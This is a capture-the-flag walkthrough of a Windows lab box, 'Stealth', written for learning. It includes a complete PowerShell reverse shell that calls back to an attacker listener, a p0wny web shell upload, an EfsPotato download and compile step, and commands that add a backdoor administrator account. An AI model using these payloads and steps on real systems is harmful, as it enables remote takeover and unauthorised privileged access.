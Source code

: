# Stealth

## Machine Info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.8.5 -oN port_scan.txt

Nmap scan report for 10.10.8.5
Host is up (0.040s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-05T12:35:28+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HOSTEVASION
|   NetBIOS_Domain_Name: HOSTEVASION
|   NetBIOS_Computer_Name: HOSTEVASION
|   DNS_Domain_Name: HostEvasion
|   DNS_Computer_Name: HostEvasion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-05T12:34:48+00:00
| ssl-cert: Subject: commonName=HostEvasion
| Not valid before: 2025-08-04T12:31:38
|_Not valid after:  2026-02-03T12:31:38
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
8000/tcp  open  http          PHP cli server 5.5 or later
|_http-title: 404 Not Found
8080/tcp  open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp  open  ssl/http      Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Try to upload a ps1 with a reverse shell to understand what is blocked and what not.

<details>

<summary>ps1 payload</summary>

```powershell
do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.23.52.142', 13337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close

```

</details>

```bash
penelope
m
listeners add -i tun0 -p 13337
```

We got a shell without anything restrictions

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Looking inside the evader's desktop we can view this file:

```powershell
SHELL> more encodedflag
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
-----END CERTIFICATE-----


```

Decode this from base64 we obtain this:

{% code overflow="wrap" %}
```bash
echo "WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA=" | base64 -d                             

You can get the flag by visiting the link http://10.10.8.5:8000/asdasdadasdjakjdnsdfsdfs.php                                                                                                                    
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

The file is a HoneyPot, try to follow the hint.

Go to Xampp uploads directory in the htdocs

```
cd C:\xampp\htdocs\uploads
rm log.txt
```

And now refresh the web page.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

We got the user flag.



## PrivEsc

WinPEAS was blocked by AV. We can try others script but we not found any interesting thing.

### p0wny shell

Uploading the more stable shell like p0wny shell we notice that we are more privilges

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>



### EFS potato

{% embed url="https://github.com/zcgonvh/EfsPotato" %}

{% code overflow="wrap" %}
```
wget https://raw.githubusercontent.com/zcgonvh/EfsPotato/refs/heads/master/EfsPotato.cs

python3 -m http.server 80
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
curl http://10.23.52.142/EfsPotato.cs -o EfsPotato.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

EfsPotato.exe whoami

# add new user in the administrators group
EfsPotato.exe "cmd.exe /c net user Antoadmin Password123! /add && net localgroup Administrators Antoadmin /add"
```
{% endcode %}



### RDP Access

```
xfreerdp3 /v:IP /u:Antoadmin /p:'Password123!'
```

